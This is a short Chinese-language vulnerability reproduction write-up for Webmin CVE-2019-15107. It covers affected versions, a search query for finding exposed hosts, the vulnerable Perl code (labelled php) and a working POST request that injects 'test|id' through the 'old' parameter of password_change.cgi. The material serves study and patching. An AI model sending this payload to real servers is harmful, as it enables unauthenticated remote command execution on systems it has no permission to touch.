


# Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是 一 个 用 于 管 理 类 Unix系 统 的 管 理 配 置 工 具 ， 具 有 Web页 面 。 在 其 找 回 密 码 页 面 中 ， 存 在 一 处 无 需 权 限 的 命 令 注 入 漏 洞 ， 通 过 这 个 漏 洞 攻 击 者 即 可 以 执 行 任 意 系 统 命 令 。 

## 漏洞影响

<a-checkbox checked>Webmin <= 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面


漏洞的触发点为文件 password_change.cgi 



其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞


```php
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```php
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

